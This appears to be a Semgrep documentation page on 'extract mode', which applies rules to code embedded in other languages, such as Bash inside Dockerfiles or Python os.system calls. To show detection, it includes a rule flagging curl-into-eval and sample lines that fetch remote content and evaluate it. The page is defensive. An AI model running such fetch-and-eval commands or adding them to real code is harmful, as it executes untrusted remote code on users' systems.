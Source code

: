 ```yaml
---
id: extract-mode
append_help_link: true
description: "This article explains the extract mode, which allows for easier handling of files containing more than one language."
---
```


import MoreHelp from "/src/components/MoreHelp"

# Extract mode

## Introduction

Extract mode enables you to run existing rules on subsections of files where the rule language is different than the language of the file. For example, running a JavaScript rule on code contained inside of script tags in an HTML document.

:::info
The extract mode feature is still in a very experimental stage and may not work as intended. r2c is planning to improve this feature in the future. Reach out for help and suggestions on the <a href="https://go.semgrep.dev/slack">Semgrep Community Slack</a>.
:::

## Example of extract mode

Without extract mode, writing rules to validate template, Markdown or configuration files which contain code in another language can be burdensome and require significant rule duplication.

Let's take the following Bash rule as an example (a simplified version of the [`curl-eval`](https://github.com/returntocorp/semgrep-rules/blob/release/bash/curl/security/curl-eval.yaml) rule from the Semgrep Registry):

```yaml
rules:
  - id: curl-eval
    severity: WARNING
    languages:
      - bash
    message: Evaluating data from a `curl` command is unsafe.
    mode: taint
    pattern-sources:
      - pattern: |
          $(curl ...)
      - pattern: |
          `curl ...`
    pattern-sinks:
      - pattern: eval ...
```

Usually, Semgrep uses this rule only against Bash files. However, a project might contain Dockerfiles or Python scripts that invoke Bash commands&mdash;without an extract mode rule, Semgrep does **not** run any Bash rules against commands contained in files of different languages.

However, with extract mode, you can provide Semgrep with instructions on how to extract any Bash commands used in a Docker `RUN` instruction or as an argument to Python's `os.system` standard library function.

```yaml
rules:
  - id: extract-docker-run-to-bash
    mode: extract
    languages:
      - dockerfile
    pattern: RUN $...CMD
    extract: $...CMD
    dest-language: bash
  - id: extract-python-os-system-to-bash
    mode: extract
    languages:
      - python
    pattern: os.system("$CMD")
    extract: $CMD
    dest-language: bash
```

By adding the extract mode rules as shown in the previous code snippet, Semgrep matches Bash code contained in the following Python file and reports the contained Bash as matching against the `curl-eval` rule.

```python
from os import system

if system('eval `curl -s "http://www.very-secure-website.net"`'):
    print("Command failed!")
else:
    print("Success")
```

Likewise, if a query included a Dockerfile with an equivalent Bash command, Semgrep reports the contained Bash as matching against the `curl-eval` rule. See the following Dockerfile example that contains a Bash command:

```dockerfile
FROM fedora
RUN dnf install -y unzip zip curl which
RUN eval `curl -s "http://www.very-secure-website.net"`
```

## Extract mode rule schema

Extract mode rules **require** the following [usual Semgrep rule keys](/writing-rules/rule-syntax/#required):
  - `id`
  - `languages`
  - One of `pattern`, `patterns`, `pattern-either`, or `pattern-regex`

Extract mode rules **also require** two additional fields:
  - `extract`
  - `dest-language`

Extract mode has two **optional** field:
  - `reduce`
  - `json`

The fields specific to extract mode are further explained in the sections below.

### `extract`

The `extract` key is required in extract mode. The value must be a metavariable appearing in your pattern(s). Semgrep uses the code bound to the metavariable for subsequent queries of non-extract mode rules targeting `dest-language`.

### `dest-language`

The `dest-language` key is required in extract mode. The value must be a [language tag](/writing-rules/rule-syntax/#language-extensions-and-tags).

### `json`

The `json` is an optional key in the extract mode. This boolean value defaults to `false` and specifies whether the extracted content is parsed as raw source code or as a JSON array. Setting the `json` key to `true` is useful in extracting code from JSON formats such as Jupyter Notebooks.

### `reduce`

The `reduce` key is optional in extract mode. The value of this key specifies a method to combine the ranges extracted by a single rule within a file.

The value of `reduce` key must be one of the following:
<dl>
    <dt><code>separate</code></dt>
    <dd><p>Treat all matched ranges as separate units for subsequent queries. This is the <b>default</b> value.</p></dd>
    <dt><code>concat</code></dt>
    <dd><p>Concatenate all matched ranges together and treat this result as a single unit for subsequent queries.</p></dd>
</dl>


## Limitations of extract mode

Although extract mode supports JSON array decoding with the `json` key, it does not support other additional processing for the extracted text, such as unescaping strings.

While extract mode can help to enable rules which try and track taint across a language boundary within a file, taint rules cannot have a source and sink split across the original file and extracted text.

<MoreHelp />